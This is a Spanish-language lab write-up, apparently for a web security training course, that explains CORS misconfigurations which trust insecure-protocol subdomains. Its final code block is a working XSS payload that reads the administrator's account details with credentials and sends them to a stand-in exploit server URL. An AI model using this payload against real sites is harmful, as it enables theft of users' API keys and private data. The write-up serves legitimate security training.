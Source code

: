 ```default
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Obteniendo como respuesta:

```default
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

En esta situación, un atacante que esté en posición de interceptar el tráfico de un usuario víctima puede explotar la configuración de CORS para comprometer la interacción de la víctima con la aplicación. 

Este ataque implica los siguientes pasos:

- El usuario víctima realiza cualquier solicitud HTTP simple.

- El atacante inyecta una redirección al sitio confiable mediante su origen.

- El navegador de la víctima sigue la redirección. El atacante intercepta la solicitud HTTP simple y devuelve una respuesta falsificada que contiene una solicitud CORS para el sitio vulnerable.

- De esta forma, el navegador de la víctima es el que hace incluyendo el origen de confianza, una request valida al sitio vulnerable con el que recolecta datos.

<br />

**Laboratorio 3: CORS vulnerability with trusted insecure protocols**

Este sitio web tiene una configuración CORS insegura en la que confía en todos los subdominios independientemente del protocolo.

Para resolver el laboratorio, vamos a crear un código JavaScript que usa CORS para recuperar la clave API del administrador y carguar el código en su servidor de explotación. El laboratorio se resuelve cuando envía correctamente la clave API del administrador.

Puede iniciar sesión en su propia cuenta con las siguientes credenciales: wiener:peter

Dado que se acepta cualquier subdominio independientemente del protocolo, colocamos el sigueinte código javascript:

```HTML
<script> document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```

